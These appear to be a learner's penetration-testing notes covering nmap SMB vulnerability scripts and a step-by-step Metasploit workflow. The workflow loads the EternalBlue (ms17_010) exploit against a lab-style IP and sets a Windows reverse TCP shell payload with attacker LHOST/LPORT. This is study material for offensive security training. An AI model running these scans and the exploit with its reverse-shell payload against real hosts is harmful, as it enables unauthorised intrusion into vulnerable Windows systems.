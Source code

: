 - check for vunlerbitlies  
	- /usr/share/nmap/scripts/smb-vuln-conficker.nse
	- /usr/share/nmap/scripts/smb-vuln-cve-2017-7494.nse
	- /usr/share/nmap/scripts/smb-vuln-cve2009-3103.nse
	- /usr/share/nmap/scripts/smb-vuln-ms06-025.nse
	- /usr/share/nmap/scripts/smb-vuln-ms07-029.nse
	- /usr/share/nmap/scripts/smb-vuln-ms08-067.nse
	- /usr/share/nmap/scripts/smb-vuln-ms10-054.nse
	- /usr/share/nmap/scripts/smb-vuln-ms10-061.nse
	- /usr/share/nmap/scripts/smb-vuln-ms17-010.nse
	- /usr/share/nmap/scripts/smb-vuln-regsvc-dos.nse
	- /usr/share/nmap/scripts/smb-vuln-webexec.nse

- combined vunlerbitlies scan for smb
	- sudo nmap -p445 -Pn -n --script smb-vuln-* 10.10.10.5 

### steps for running Metasploit
#### step: 1 Search for exploit and read exploit information
start 
	sudo service postgresql start
run
	msfconsole 
1. search for exploit and read information 
	- search ``<keyword>``
	- search ``<exploit><keyword>``
	- search type:exploit  smb
	- search type:exploit ms17-010
	- location of exploit 
		- cd /usr/share/metasploit-framework/modules/exploits/windows/smb 
		- exploit are not reliable - try it works then good 
2. Before using exploit get info about what it does 
	- info exploit/windows/smb/ms17_010_eternalblue
- Buffer-overflow (ek kava paysa tha)
1. Setting 
	- RHOSTS -Target's IP
	- RPORT - Target' port number 
	- LHOST -Attacker's IP
	- LPORT - Attacker's port 
#### step: 2 Load Exploit and configure exploit options
1. use ``<modulepath >``
2. show options 
3. set ``<option> <value>``
	-  set RHOSTS 10.10.10.5
- changed to Payload options 
	- set payload payload/windows/x64/shell/reverse_tcp
#### Step: 3 Load payload and configure payload option (optional) 
1. show payloads 
2.  set payload ``<payload path>`` 
3. set payload payload/windows/x64/shell_reverse_tcp 
4. set LHOST,RHOST,LPORT
##### Bind (shell) TCP Connection 
![None](https://miro.medium.com/v2/resize:fit:700/1*yjtQdNmE5NQyVgMVSM4eaw.png)

